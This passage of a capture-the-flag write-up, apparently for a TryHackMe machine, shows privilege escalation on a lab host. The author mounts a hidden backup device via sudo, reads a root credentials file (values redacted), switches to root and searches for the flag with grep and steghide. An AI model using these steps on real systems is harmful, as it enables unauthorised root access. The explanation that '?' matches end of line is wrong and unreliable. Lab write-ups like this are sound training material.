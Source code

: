 `hidden_backup`?? That's definitely not default in Linux. Let's mount that directory in `/tmp/`:

```
willow@willow-tree:/tmp$ mkdir share

willow@willow-tree:/tmp$ sudo /bin/mount /dev/hidden_backup /tmp/share
willow@willow-tree:/tmp$ ls -lah /tmp/share/
[...]
-rw-r--r--  1 root root   42 Jan 30  2020 creds.txt

willow@willow-tree:/tmp$ cat /tmp/share/creds.txt 
root:{Redacted}
willow:{Redacted}
```

Ahh! We found root's credentials! Let's **Switch User** to `root`:

```
willow@willow-tree:/tmp$ su root
Password: 
root@willow-tree:/tmp# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

We're root! :D

# Rooted

```
root@willow-tree:/tmp# cat /root/root.txt
This would be too easy, don't you think? I actually gave you the root flag some time ago.
You've got my password now -- go find your flag!
```

Nice trick lul. Now, **`grep`** and **regular expression** comes in handy!

```
root@willow-tree:/# grep -orE "THM{.*?}"
```

- `.` means: Matches any character.
- `*` means: Matches zero or more instances of the preceding character.
- `?` means: Matches the end of the line.

But no luck...

Maybe it's a steganography thing?? Since we have the `user.jpg` image file. Let's use `steghide` to see is there any shenanigan:

```
┌──(root💀siunam)-[~/ctf/thm/ctf/Willow]
└─# steghide extract -sf user.jpg
Enter passphrase: 
steghide: could not extract any data with that passphrase!
```
